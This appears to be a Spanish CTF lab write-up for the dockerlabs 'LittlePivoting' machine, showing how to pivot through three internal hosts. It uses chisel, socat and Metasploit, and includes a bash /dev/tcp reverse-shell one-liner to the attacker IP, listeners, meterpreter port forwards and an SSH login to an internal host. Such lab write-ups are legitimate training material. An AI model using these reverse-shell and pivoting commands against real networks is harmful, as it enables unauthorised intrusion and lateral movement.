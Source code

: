 # dockerlabs.es "LittlePivoting"





Attacker:
10.10.10.1

Inclusion:
10.10.10.2 20.20.20.2                                                                                                                                         
Trust:
20.20.20.3 30.30.30.2                                                                   

Upload:
30.30.30.3   
















## 1. Usando `chisel` and `socat`

### Paso 1

1.1 Attacker machine:
```
chisel server --reverse -p 1111
echo -e "socks5\t 127.0.0.1 1080" | sudo tee /etc/proxychains4.conf
```

1.2 Inclusion:
```
chisel client 10.10.10.1:1111 R:socks
```



### Paso 2
2.1 Inclusion:
```
socat TCP-LISTEN:2222,fork TCP:10.10.10.1:1111
```


2.2 Attacker:
```
echo -e "socks5\t127.0.0.1 2222" | sudo tee /etc/proxychains4.conf
```

2.3 Trust:
```
chisel client 20.20.20.2:2222 R:2222:socks
```





### Paso 3

3.1 Trust:
```
socat TCP-LISTEN:3333,fork TCP:20.20.20.2:4444
```

3.2 Inclusion:
```
socat TCP-LISTEN:4444,fork TCP:10.10.10.1:5555
```


3.3 Attacker:
```
nc -lvnp 5555
```


3.4 Trust:
Subir el payload a  `http://30.30.30.3/upload.php` para inicial una reverse shell a Upload (30.30.30.2:3333) que recibiremos en nuestra Attacker machine en el puerto 5555.
























## 2. Usando Metasploit


### Paso 1

1.1 Attacker (Metasploit):
```
msf6 exploit(multi/handler) > use multi/handler
msf6 exploit(multi/handler) > set LHOST 10.10.10.1
msf6 exploit(multi/handler) > set LPORT 1111
msf6 exploit(multi/handler) > run
```


1.2 Inclusion
```
bash -i >& /dev/tcp/10.10.10.1/1111 0>&1;
```


1.3 Attacker (Metasploit):
Una vez estblecida la conexión:
```
> background
```

Checkeamos el ID de nuestra session y luego elevamos la session a meterpreter:
```
msf6 exploit(multi/handler) > sessions -l
...

1 shell sparc/bsd   Shell Banner: root@c77fe68f3854:...
...

msf6 exploit(multi/handler) > sessions -u -1
```
[SNAPSHOT ACA]



Luego agregamos la ruta:
```
msf6 exploit(multi/handler) > route add 20.20.20.2 255.255.255.0 2
```

Y hacemos port forwarding para poder acceder desde Attacker a Trust:
```
msf6 exploit(multi/handler) > sessions 2
meterpreter > portfwd add -l 1080 -p 80 -r 20.20.20.3
meterpreter > portfwd add -l 1022 -p 22 -r 20.20.20.3
```





### Paso 2

2.1 Attacker:
En una nueva shell ahora podremos acceder a Trust, ya que estamos usando a Inclusion como pivot:
```
ssh mario@127.0.0.1 -p 1022
```






































```